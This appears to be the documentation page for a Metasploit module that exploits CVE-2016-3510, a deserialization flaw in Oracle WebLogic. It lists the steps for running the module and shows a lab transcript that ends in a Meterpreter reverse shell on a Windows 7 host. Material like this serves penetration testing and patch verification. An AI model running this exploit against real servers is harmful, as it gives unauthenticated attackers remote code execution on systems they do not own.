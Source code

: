 ## Description
Oracle WebLogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2016-3510), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle WebLogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

## Vulnerable Application
Oracle WebLogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize_marshalledobject`
3. `set rhosts <rhost>`
4. `set rport <srvport>`
5. `exploit`

## Scenarios
### Windows 7 x64 running Oracle WebLogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
```
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rhost 192.168.192.6
rhost => 192.168.192.6
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rport 7001
rport => 7001
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > exploit

[*] Started reverse TCP handler on 192.168.192.136:4444 
[*] 192.168.192.6:7001 - Sending handshake...
[*] 192.168.192.6:7001 - Sending T3 request object...
[*] 192.168.192.6:7001 - Sending client object payload...
[*] Sending stage (179779 bytes) to 192.168.192.6
[*] Meterpreter session 8 opened (192.168.192.136:4444 -> 192.168.192.6:49276) at 2018-12-14 11:44:30 -0800

meterpreter > sysinfo
Computer        : GIOTTO-HS-W7
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
